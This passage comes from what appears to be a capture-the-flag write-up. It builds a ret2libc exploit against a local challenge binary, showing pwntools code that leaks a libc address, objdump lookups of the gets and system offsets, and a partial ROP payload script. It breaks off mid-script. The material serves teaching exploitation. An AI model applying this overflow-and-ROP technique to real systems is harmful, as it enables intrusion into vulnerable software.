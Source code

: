 ```py
log.info(f"leak: {hex(leak)}")

p.interactive()
```

OUTPUT:

```
[x] Starting local process './chall'
[+] Starting local process './chall': pid 8921
[*] leak: 0x7fa0e7f9cb60
[*] Switching to interactive mode
```

Success!! We have our leaks now. With this we can calculate our LIBC base address, and from there, return to libc system.

First, we find our address offsets of our **gets** and **system**

We first need to know where our `libc` is by doing `ldd ./chall`

```
➜ ldd ./chall
 linux-vdso.so.1 (0x00007fff1b598000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fec9057f000)
 /lib64/ld-linux-x86-64.so.2 (0x00007fec90763000)
```

My `LIBC` is in `/lib/x86_64-linux-gnu/libc.so.6`. We can now dump the dynamic symbols with `objdump -T` and grep for `system` and `gets`.

```
➜ objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -E "(system$|gets$)"

0000000000075b60  w   DF .text  00000000000001bc  GLIBC_2.2.5 gets
0000000000048e50 g    DF .text  000000000000002d  GLIBC_PRIVATE __libc_system
00000000000749c0  w   DF .text  000000000000018c  GLIBC_2.2.5 fgets
00000000000749c0 g    DF .text  000000000000018c  GLIBC_2.2.5 _IO_fgets
0000000000048e50  w   DF .text  000000000000002d  GLIBC_2.2.5 system
0000000000039f00 g    DF .text  0000000000000082  GLIBC_2.2.5 catgets
0000000000075b60 g    DF .text  00000000000001bc  GLIBC_2.2.5 _IO_gets

```

`gets`: 0x75b60

`system`: 0x48e50

Let's continue building our script now.

<br>

#### Script 3:

```py
from pwn import *

p = process('./chall')

OFFSET = 0x100 + 8 # 0x100 is size of our variable, 8 is our saved rbp
PUTSPLT = 0x401050
GETSGOT = 0x404020
POPRDI = 0x4011f3
MAIN = 0x401156

payload = b"A" * OFFSET
payload += p64(POPRDI) + p64(GETSGOT) # place GETSGOT into RDI
payload += p64(PUTSPLT) # call puts(GETSGOT)
payload += p64(MAIN) # loop back to main for round 2 exploit

```